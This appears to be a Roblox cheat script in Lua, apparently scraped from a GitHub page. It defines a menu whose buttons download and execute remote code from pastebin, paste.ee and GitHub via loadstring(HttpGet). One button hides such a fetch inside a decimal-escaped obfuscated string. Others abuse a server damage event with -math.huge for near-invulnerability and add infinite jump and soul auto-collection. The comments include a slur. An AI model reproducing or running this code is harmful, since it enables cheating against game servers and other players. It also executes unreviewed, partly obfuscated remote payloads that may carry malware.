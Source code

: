 local kavoUi = loadstring(game:HttpGet("https://pastebin.com/raw/vff1bQ9F"))()
local window = kavoUi.CreateLib("horfic","BloodTheme")
 
---Tabs
 
local Tab1 = window:NewTab("scrip")
local Tab1Section = Tab1:NewSection("acript")
local Tab2 = window:NewTab("gui")
local Tab2Section = Tab2:NewSection("Nothing")
local Tab3 = window:NewTab("Credits")
local Tab3Section = Tab3:NewSection("thatall")
local Tab3Section = Tab3:NewSection("mehubloxSC")

---buttons

Tab2Section:NewButton("Proxhub","Makes You Ie",function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/TrixAde/Proxima-Hub/main/Main.lua"))()
end)

Tab1Section:NewButton("Semigod","Ifk",function()
_G.GM = true -- Change true to false to disable, made by shitass / peke#7374
while _G.GM do task.wait()
local retardargs = {
["dir"] = Vector3.new(0,0,0), -- The pos doesnt matter
["origin"] = Vector3.new(0,0,0), -- The pos doesnt matter
["shooter"] = game:GetService("Players").LocalPlayer -- Change to any player if LP doesnt work
}
game:GetService'ReplicatedStorage'["damageMe"]:FireServer(-math.huge, retardargs)
end
end)

Tab1Section:NewButton("Infjump","Jsks",function()
local InfiniteJumpEnabled = true
game:GetService("UserInputService").JumpRequest:connect(function()
	if InfiniteJumpEnabled then
		game:GetService"Players".LocalPlayer.Character:FindFirstChildOfClass'Humanoid':ChangeState("Jumping")
	end
end)
end)

Tab1Section:NewButton("Collect souls","M",function()
workspace:WaitForChild("Souls").DescendantAdded:Connect(function(v)
    if v:IsA("TouchTransmitter") and v.Parent:IsA("BasePart") and lp.Character and lp.Character:FindFirstChildWhichIsA("Humanoid") and lp.Character:FindFirstChildWhichIsA("Humanoid").RootPart then
        firetouchinterest(lp.Character:FindFirstChildWhichIsA("Humanoid").RootPart,v.Parent,0)
    end
end)
end)


Tab2Section:NewButton("fly","Mak",function()
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()
end)

Tab2Section:NewButton("horifc","Makes",function()
loadstring(game:HttpGet("https://paste.ee/r/GzZjj", true))()
end)
